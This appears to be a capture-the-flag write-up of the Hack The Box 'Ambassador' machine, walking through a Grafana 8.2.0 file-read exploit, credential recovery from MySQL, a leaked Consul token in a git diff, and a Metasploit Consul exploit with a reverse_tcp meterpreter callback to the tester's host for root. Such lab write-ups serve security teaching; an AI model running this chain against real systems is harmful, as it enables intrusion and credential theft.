



# Initial Scanning
First I ran an nmap scan to check for open ports and available services on this machine
```
karim@alpacino:~/Desktop/htb/ambassador$ nmap -sC -sV 10.10.11.183
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-24 12:26 EET
Nmap scan report for ambassador.htb (10.10.11.183)
Host is up (0.18s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Hugo 0.94.2
|_http-title: Ambassador Development Server
|_http-server-header: Apache/2.4.41 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 24 Jan 2023 10:27:23 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
```
so there are three ports open which are 22 for ssh and port 3000 which is unknown service and 80 so I added the ip in my **/etc/hosts** file to access the website

I didn't find anything so I tried using port 3000 and it prompted me to a login page with grafana as the title

You can see that its version number is **8.2.0** so I searched for known exploits and I found [this exploit](https://www.exploit-db.com/exploits/50581) so I ran it and was able to read /etc/passwd file so I entered the default path for grafana datbase file which is **/var/lib/grafana/grafana.db** and I was able to save it and used mysql browser to open the file and found credentials for mysql server which is running on the machine

so I used it to login to mysql server on the machine
```
karim@alpacino:~/Downloads$ mysql -h ambassador.htb -u grafana -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 75
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```
so I enumrated the database and I was able to get username and base64 encoded password
```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.128 sec)
MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.066 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.066 sec)
```
so I echoed the password and piped the output to base64 decode command and
```
karim@alpacino:~/Downloads$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```
so I logged in using ssh using username developer and password **anEnglishManInNewYork027468** and now I am developer user on the system
```
karim@alpacino:~/Downloads$ ssh developer@ambassador.htb 
The authenticity of host 'ambassador.htb (10.10.11.183)' can't be established.
ED25519 key fingerprint is SHA256:zXkkXkOCX9Wg6pcH1yaG4zCZd5J25Co9TrlNWyChdZk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ambassador.htb' (ED25519) to the list of known hosts.
developer@ambassador.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Jan 2023 09:50:07 PM UTC

  System load:           0.06
  Usage of /:            81.2% of 5.07GB
  Memory usage:          50%
  Swap usage:            0%
  Processes:             233
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.183
  IPv6 address for eth0: dead:beef::250:56ff:feb9:46f6


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jan 24 18:55:52 2023 from 10.10.16.60
developer@ambassador:~$ 
```
and I was able to read user.txt file.
Then I went to the opt directory and found my-app dirctory so went to it and ran the command git log
```
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```
and I found that developer user made several git commits so I decided to show the details of  the first git commit
```
developer@ambassador:/opt/my-app$ git show 33a53ef9a207976d5ceceddc41a199558843bf3c
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
so I found that developer user installed consul service so I connected to it using ssh with following command
```
karim@alpacino:~/Desktop/htb/ambassador/Hashicorp-Consul-RCE-via-API$ ssh -L 8000:127.0.0.1:8500 developer@ambassador.htb -fN
developer@ambassador.htb's password: 
```
and I searched for an exploit using metasploit and i found one with the path **multi/misc/consul_service_exec** so used it and set up the rhosts to localhost and acl token to **bb03b43b-1d81-d62b-24b5-39540ee469b5** and set up the lhosts to our tun0 ip
```
Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting                       Required  Description
   ----       ---------------                       --------  -----------
   ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
   Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     localhost                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Us
                                                              ing-Metasploit
   RPORT      8500                                  yes       The target port (TCP)
   SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on t
                                                              he local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080                                  yes       The local port to listen on.
   SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                     yes       The base path
   URIPATH                                          no        The URI to use for this exploit (default is random)
   VHOST                                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.66      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


View the full module info with the info, or info -d command.

```
and typed exploit and got a meterpeter shell so I typed shell and now I have bash shell with the root user